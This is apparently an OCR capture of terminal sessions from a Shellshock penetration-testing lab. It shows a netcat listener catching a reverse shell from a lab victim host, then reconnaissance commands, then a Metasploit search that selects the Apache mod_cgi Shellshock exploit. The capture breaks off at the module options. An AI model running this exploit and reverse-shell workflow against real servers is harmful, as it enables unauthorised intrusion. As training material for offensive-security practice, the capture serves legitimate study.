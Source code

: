 ```
root@attackdefense:~# nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.181.17.3.
Ncat: Connection from 192.181.17.3:42242.
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
daemon@victim-1:/opt/apache/htdocs$ whoami
whoami
daemon
daemon@victim-1:/opt/apache/htdocs$ cat /etc/*issue
cat /etc/*issue
Ubuntu 14.04.6 LTS \n \l

daemon@victim-1:/opt/apache/htdocs$ uname -a
uname -a
Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search shellshock

Matching Modules
================

   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   2   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   3   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   4   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   6   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   9   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   10  exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   11  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)


msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

```